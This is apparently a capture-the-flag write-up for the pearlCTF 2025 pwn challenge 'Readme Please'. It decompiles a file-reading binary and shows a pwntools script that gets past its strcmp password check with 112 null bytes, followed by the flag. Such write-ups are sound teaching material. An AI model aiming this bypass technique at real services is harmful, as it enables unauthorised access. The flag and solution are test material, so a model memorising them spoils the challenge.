 # Readme Please

{% hint style="info" %}
Category: PWN

Difficulty: easy
{% endhint %}

## Description

> I made a very secure file reading service.
>
> **Links**: nc readme-please.ctf.pearlctf.in 30039
>
> **Files**: _readme\_src.zip_

## Solve Walkthrough

* This is also a simple pwn challenge, without special technique. Only depends on your logic and knowledge in binary.
* First, after we unzip the source code, let's check the ELF binary protection.

```bash
[*] '/home/hurtz4eva/Nextcloud/CTF/international/pearlCTF/2025/pwn/readme_please/source/main'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

* This is a list of available functions inside the binary.

<figure><img src="../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

* We only got 2 interesting function symbols, which is the `main` function and `generate_password` function.
* Here's the decompiled of `main` and `generate_password` functions.

{% tabs %}
{% tab title="main" %}
```c
// main function.
undefined8 main(void)

{
  int iVar1;
  char *pcVar2;
  FILE *__stream;
  long in_FS_OFFSET;
  int local_18c;
  char local_178 [112];
  char local_108 [112];
  char local_98 [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  generate_password(local_98,0x7f);
  printf("Welcome to file reading service!");
  fflush(stdout);
  local_18c = 0;
  do {
    if (1 < local_18c) {
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return 0;
    }
    printf("\nEnter the file name: ");
    fflush(stdout);
    __isoc99_scanf(&DAT_00102088,local_178);
    pcVar2 = __xpg_basename(local_178);
    __stream = fopen(local_178,"r");
    if (__stream == (FILE *)0x0) {
      puts("Please don\'t try anything funny!");
      fflush(stdout);
    }
    else {
      iVar1 = strcmp(pcVar2,"flag.txt");
      if (iVar1 == 0) {
        printf("Enter password: ");
        fflush(stdout);
        __isoc99_scanf(&DAT_00102088,local_108);
        iVar1 = strcmp(local_108,local_98);
        if (iVar1 != 0) {
          puts("Incorrect password!");
          fflush(stdout);
          goto LAB_001015f2;
        }
      }
      while( true ) {
        pcVar2 = fgets(local_108,100,__stream);
        if (pcVar2 == (char *)0x0) break;
        printf("%s",local_108);
        fflush(stdout);
      }
      fclose(__stream);
    }
LAB_001015f2:
    local_18c = local_18c + 1;
  } while( true );
}
```
{% endtab %}

{% tab title="generate_password" %}
```c
void generate_password(void *param_1,ulong param_2)

{
  char cVar1;
  int __fd;
  ulong uVar2;
  ulong local_10;
  
  __fd = open("/dev/urandom",0);
  if (__fd < 0) {
    perror("Failed to open /dev/urandom");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  uVar2 = read(__fd,param_1,param_2);
  if (uVar2 != param_2) {
    perror("Failed to read random bytes");
    close(__fd);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  close(__fd);
  for (local_10 = 0; local_10 < param_2; local_10 = local_10 + 1) {
    cVar1 = *(char *)(local_10 + (long)param_1);
    *(char *)(local_10 + (long)param_1) =
         cVar1 + ((char)((short)(cVar1 * 0x100af) >> 0xe) - (cVar1 >> 7)) * -0x5e + '!';
  }
  *(undefined1 *)(param_2 + (long)param_1) = 0;
  return;
}
```
{% endtab %}
{% endtabs %}

* Pretty long huh?, but the code is straightforward:
  * First, the code will generate a new password to protect the `files/flag.txt` file that we inputed. The password is randomly generated from `/dev/urandom` file and will be store in `local_98` array with only **112 Bytes**.
  * We've to input the correct path of a target file that we want to read. There are only 3 files that we can read from the remote machine, including `flag.txt`, `default.txt`, and the `note-1.txt` (I aware you not to read this file :v).
  * If we type: `files/flag.txt` , it means that **we've to provide the password**. Otherwise, all files can be read without have to provide a password.
  * **Tips**: Don't get too confused in the password transformation from `/dev/urandom` in the `generate_password` function. _Better leave it_ haha..
* Notice that in the `main` function is comparing a string of `local_98` (**generated password**) with a `local_108` (**user input password**).

{% code title="main" overflow="wrap" lineNumbers="true" %}
```c
  // snipped code.
    if (__stream == (FILE *)0x0) {
      puts("Please don\'t try anything funny!");
      fflush(stdout);
    }
    else {
      iVar1 = strcmp(pcVar2,"flag.txt");
      if (iVar1 == 0) {
        printf("Enter password: ");
        fflush(stdout);
        __isoc99_scanf(&DAT_00102088,local_108);
        iVar1 = strcmp(local_108,local_98); // vuln is happen here.
        if (iVar1 != 0) {
          puts("Incorrect password!");
          fflush(stdout);
          goto LAB_001015f2;
        }
      }
  // snipped code.
```
{% endcode %}

* How we can bypass the condition? Since it was using the `strcmp` function, so we can send some `\x00` (**NULL Byte**) characters in the input password prompt.
* But, how long the `\x00` characters that we need? It's only **`112` Bytes** (**0x70**) until our input is reach the max of array length.
* So, here's my exploit script.

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/env python3

from pwn import *
import itertools

context.binary = elf = ELF("./main", checksec=0)
context.log_level = "DEBUG"

is_remote = True

if is_remote:
    io = remote("readme-please.ctf.pearlctf.in", 30039)
else:
    io = elf.process()

# Send first request to read the flag.txt file.
io.sendlineafter(b"Enter the file name: ", b"files/flag.txt")

# Abuse the string comparison with \x00 characters.
io.sendlineafter(b"Enter password: ", b"\x00"*0x70) # 112 Bytes.

print(io.recvall(timeout=1))

# Close the remote connection.
io.close()
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

## Flag

<kbd>pearl{f1l3\_d3script0rs\_4r3\_c00l}</kbd>
